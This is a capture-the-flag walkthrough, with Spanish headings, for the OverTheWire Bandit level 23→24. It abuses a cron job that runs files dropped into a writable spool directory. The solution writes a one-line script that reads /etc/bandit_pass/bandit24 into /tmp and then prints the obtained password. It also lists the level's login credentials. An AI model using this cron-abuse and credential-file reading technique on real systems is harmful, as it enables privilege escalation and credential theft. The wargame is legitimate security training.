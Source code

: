 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solución
```
bandit23@bandit:/tmp/contra24$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/tmp/contra24$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/contra24.txt" > scriptsito.sh
bandit23@bandit:/var/spool/bandit24/foo$ chmod 777 scriptsito.sh
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/contra24.txt
cat: /tmp/contra24.txt: No such file or directory
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/contra24.txt
cat: /tmp/contra24.txt: No such file or directory
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/contra24.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
## Notas adicionales
## Referencias
